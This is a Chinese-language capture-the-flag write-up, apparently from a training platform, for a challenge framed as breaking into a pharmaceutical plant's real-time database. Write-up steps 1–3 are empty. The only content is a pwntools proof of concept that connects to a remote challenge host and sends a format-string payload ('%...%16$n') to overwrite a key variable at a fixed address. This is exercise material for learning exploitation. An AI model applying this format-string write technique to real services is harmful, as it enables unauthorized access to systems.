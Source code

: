 # 实时数据监测

> 题目描述：小A在对某家医药工厂进行扫描的时候，发现了一个大型实时数据库系统。小A意识到实时数据库系统会采集并存储与工业流程相关的上千节点的数据，只要登录进去，就能拿到有价值的数据。小A在尝试登陆实时数据库系统的过程中，一直找不到修改登录系统key的方法，虽然她现在收集到了能够登陆进系统的key的值，但是只能想别的办法来登陆。

## Writeup

1.

2.

3.

4. POC：
```python
import pwn

pwn.context(arch='i386', os='linux')

#p = pwn.process('./9926c1a194794984978011fc619e3301')
p = pwn.remote('220.249.52.133', 30149)

key_addr = 0x804A048
payload = b'%35795746x%16$n\x00' + pwn.p32(key_addr)    # %x：写入35795746个字符，$16$n：偏移量为16，payload = arg1 + arg2（中间用\x00隔开）

p.sendline(payload)

p.interactive()
```